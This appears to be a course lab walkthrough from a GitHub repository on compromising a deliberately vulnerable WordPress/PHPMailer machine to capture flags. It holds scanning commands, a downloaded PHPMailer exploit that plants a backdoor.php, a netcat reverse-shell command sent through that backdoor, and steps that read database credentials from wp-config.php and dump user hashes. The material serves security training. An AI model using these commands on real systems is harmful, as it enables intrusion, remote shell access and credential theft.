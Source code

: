 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap

- wpscan

- google developers tool

- Q terminal

- Kali Linux

- ssh

- Bash Commands

- Mysql

- John the Ripper

- Python Script

---

## **Walkthrough**

1.  The existence of a Directory index was found while using Nikto to find vulnerabilities on the webserver

        nikto -C all -h 192.168.1.115

    ![2](/Images/4/2.PNG)

2. Several paths to explore are revealed with the use of Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![3](/Images/4/3.PNG)

3. Exploring `192.168.1.115/vendor/` with the browser, we found several important paths including four revealing the use of PHPMAILER.
    
    Open URL in the browser

        192.168.1.115/vendor/

    ![4](/Images/4/4.PNG)     
        
4. PATH: reveals the first flag.

    Double click link

        192.168.1.115/vendor/PATH

    **Flag1**

    ![5](/Images/4/5.PNG)

5. SECURITY.md: Reveals details of versions of the PHPMAILER.

    Double Click to open file on browser

    ![6](/Images/4/6.PNG)    

6. VERSION: Reveals the current version of PHPMAILER in use

    Double click link

    ![7](/Images/4/7.PNG)  

7. Search script to exploit vulnerability 

        searchsploit phpmailer

    ![8](/Images/4/8.PNG)  

8. Look at Python Script

        Open on browser the path `192.168.1.115/vendor/PATH`

    ![9](/Images/4/9.PNG) 

9. press "q" keyboard to quit view

10. Download the script to the current folder

        searchsploit phpmailer -m php/webapps/40968.sh

    ![10](/Images/4/10.PNG)

11. Authorize file to execute

        sudo chmod 777 40968.sh

12. run exploit

        ./40968.sh 192.168.1.115

    ![11](/Images/4/11.PNG)

13. Now we know the PHPMAILER can be exploited. We can find and use a more useful script that allow to create a shell to the vulnerable machine. Exploit.sh installs a backdoor.php file that give the capability to execute command injection attacks.

    [exploit.sh](/Resources/explot.sh)

14. We take a look at the script and customize it for this exploit. (change the URL for the target machine)

        nano exploit.sh

    ##### Note: Use "CTRL X", then "y", and "enter" (to exit nano)

    ![12](/Images/4/12.PNG)

16. Authorize file to execute

         sudo chmod 777 exploit.sh

17. Execute file

        ./exploit.sh

    ![13](/Images/4/13.PNG)

18. Backdoor.php let us run bash commands like netcat. We can use netcat to create a shell. First set netcat to lisent on kali machine

         nc -lnvp 4444

   ![14](/Images/4/14.PNG)

19. Next, we look at our own IP address to use it with netcat to call our kali machine from the exploited machine (Target 2). 

        ifconfig

   ![15](/Images/4/15.PNG)


20. We use our IP address with netcat to call our kali machine from the exploited machine (Target2). We insert the command throuht the browser

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    ##### Note: change the second IPaddress for your own 

    ![16](/Images/4/16.PNG)

20. Now we have access. We look for the second flag

        find /var/www -type f -iname 'flag*'

    ![17](/Images/4/17.PNG)

21. Open file

        cat /var/www/flag2.txt

    **flag2**

    ![18](/Images/4/18.PNG)

23. Look for others flags

        find -type f -iname '*flag*'

    ![19](/Images/4/19.PNG)

21. We found the file active on wordpress, so we go to that direction on the browser

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
   ![20](/Images/4/20.PNG)

22. Now we have a shell and the experience of the previous exploit (target1). We will try to look for a SQL database password as we spot the same file as in target 1 (wp-config.php)

        cd wordpress
        cat wp-config.php

    SQL user: Root

    SQL password: R@v3nSecurity

     ![21](/Images/4/21.PNG)


23. The current shell will not allow us to use mysql, so we upgrade the current shell

        python -c 'import pty; pty.spawn("/bin/bash")'

    ![22](/Images/4/22.PNG)

24. We access the server

        mysql -u root -p
        password: R@v3nSecurity

25. Find Users and Hashes

    ```
    show databases;
    use wordpress;
    SELECT * FROM wp_users
    ```
    ![23](/Images/4/23.PNG)





    
